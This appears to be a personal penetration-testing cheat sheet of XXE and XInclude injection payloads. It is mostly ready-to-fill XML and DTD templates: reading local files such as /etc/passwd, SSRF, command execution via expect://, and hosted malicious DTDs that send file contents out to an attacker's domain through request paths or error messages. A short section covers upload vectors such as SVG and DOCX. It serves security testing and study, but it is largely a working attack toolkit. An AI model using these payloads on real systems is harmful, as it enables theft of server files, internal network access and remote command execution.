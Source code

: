 # XXE
## Direct
### File Retrieval
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://<FILE>"> ]>  
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### SSRF
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "<PROTOCOL>://<DOMAIN>"> ]>
```

### System Commands
```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "expect://<COMMAND>"> ]>  
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## External File Exfiltration
**Note: Some files cannot be fetched via HTTP(s), since /r/n is validated through the URL. Could use FTP (Don't know if Burp supports)**
## POC
- /etc/passwd
- /etc/hostname

### Data in Response
#### Hosted DTD
**Hosted on `http://<DOMAIN>/malicious.dtd`**
```dtd
<!-- Define file to contents of file -->
<!ENTITY % file SYSTEM "file://<FILE>">
<!-- Define eval as stored entity -->
<!-- Contains encoded exfiltrate which queries home domain, with file contents -->
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '<PROTOCOL>://<DOMAIN>/?res=%file;'>">

<!-- Load eval entity -->
%eval;
<!-- Query our domain with file contents in its path -->
%exfiltrate;
```

#### Injected XML
```xml
<!-- Points target to go to our DTD -->
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "<PROTOCOL>://<DOMAIN>/malicious.dtd"> %xxe; ]>
```

### Data in Error
#### Hosted DTD
**Hosted on `http://<DOMAIN>/malicious.dtd`**
```dtd
<!-- Define file to contents of file -->
<!ENTITY % file SYSTEM "file://<FILE>">
<!-- Define eval as stored entity -->
<!-- Contains encoded error which throws an error with file contents -->
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///<DOESNOTEXIST>/%file;'>">

<!-- Load eval entity -->
%eval;
<!-- Throw the error -->
%error;
```

## Hybrid DTDs
**When the DTD cannot be external**
```
<!DOCTYPE foo [  
<!-- Non-controllable DTD location -->
<!ENTITY % local_dtd SYSTEM "file://<LOCAL_DTD>">

<!-- Redefine existing custom_entity as stored entities -->
<!-- NOTE the HTML encodings -->
<!-- Stored entity defines file as contents of file -->
<!-- Stored entity stores nested entity, which throws an error with file contents -->
<!-- Stored entity then sequentially stores encoded entities -->
<!ENTITY % custom_entity "
<!ENTITY &#x25; file SYSTEM 'file://<FILE>'>
<!ENTITY &#x25; eval '<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///<DOESNOTEXIST>/&#x25;file;&#x27;>'>  
&#x25;eval;  
&#x25;error;  
"> 

<!-- Parse stored encoded entities -->
%local_dtd;  
]>
```

# XInclude
**Inject like XSS**
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="<TYPE (text)>" href="file://<FILE>"/></foo>
```

# File Upload
**Supported files: XML, SVG, SOAP, DOCX, XLSX, DTD**
**For SVG, its probably necessary to play with viewbox to see everything**
**Good reference [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-in-exotic-files)**